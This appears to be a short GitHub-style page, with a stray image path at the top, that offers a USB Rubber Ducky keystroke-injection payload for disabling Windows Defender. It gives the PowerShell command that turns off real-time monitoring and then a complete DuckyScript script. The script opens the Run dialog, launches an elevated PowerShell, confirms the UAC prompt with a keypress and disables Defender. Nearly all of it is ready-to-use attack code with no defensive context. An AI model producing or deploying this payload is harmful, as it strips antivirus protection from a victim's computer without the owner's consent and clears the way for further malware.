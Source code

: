 Windows defender can be disabled with PS using the following command

```ps
Set-MpPreference -DisableRealtimeMonitoring $true
```

An example script: 
Note: line with "ALT y" may not be required and could lead to error in the next line.  
```
REM Windows 10: Disable Windows Defender with Powershell
REM Author: Judge2020
REM author website: Judge2020.com
REM  
REM let the HID enumerate
DELAY 1000
GUI r
DELAY 200
REM my best attempt at a elevated powershell instance
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 1000
ALT y 
DELAY 200
STRING Set-MpPreference -DisableRealtimeMonitoring $true
ENTER
STRING exit
ENTER
```